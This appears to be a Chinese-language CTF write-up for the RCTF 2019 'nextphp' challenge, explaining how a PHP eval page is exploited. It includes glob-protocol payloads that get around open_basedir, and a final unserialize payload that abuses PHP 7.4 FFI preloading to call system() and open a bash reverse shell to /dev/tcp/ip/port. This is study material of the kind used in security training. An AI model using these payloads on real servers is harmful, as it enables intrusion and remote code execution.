









前言
福大的一题ctf，学习一波
index.php
进入网页直接显示eval函数
1 | <?php |
查看phpinfo(),disable_functions几乎禁用了所以可利用的函数

open_basedir控制访问路径

使用glob协议读到文件
http://nextphp.2019.rctf.rois.io/?a=if ( $b = opendir("glob:///var/www/html/*php") ) {while ( ($file = readdir($b)) !== false ) {echo "filename:".$file."\n";}closedir($b);}
index.php preload.php
http://nextphp.2019.rctf.rois.io/?a=if ( $b = opendir("glob:///*") ) {while ( ($file = readdir($b)) !== false ) {echo "filename:".$file."\n";}closedir($b);}
/下存在flag文件

利用include+伪协议读取preload.php文件
1 | <?php |
是一个自定义序列化的类.通过通过文件名字preload.php查找php7.4预加载。
发现php7.4可以利用php.ini开启opcache预加载。

搜索phpinfo，发现preload.php预加载
在末尾看到警示，若加载了ext/FFI会造成危险。该题改期了ffi扩展。
查找FFI扩展可利用点。利用该扩展会调用系统共享库。和0CTF LD_PRELOAD系统劫持有异曲同工之妙。

FFI API仅能适用于预加载文件，该题preload.php恰好符合该条件。

FFI:cdef()静态方法能够调用c函数。第二个参数调用的共享库可不写

Payload
根据run()方法创建的调用方式，FFI:cdef(“int system(const char *command);”)被放置于data[‘ret’]中。
1 | nextphp.2019.rctf.rois.io/?a=var_dump(unserialize('C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}')->__serialize()[ret]->system("bash -c '/bin/bash -i >& /dev/tcp/ip/port 0>&1'")); |

反弹shell得到Flag
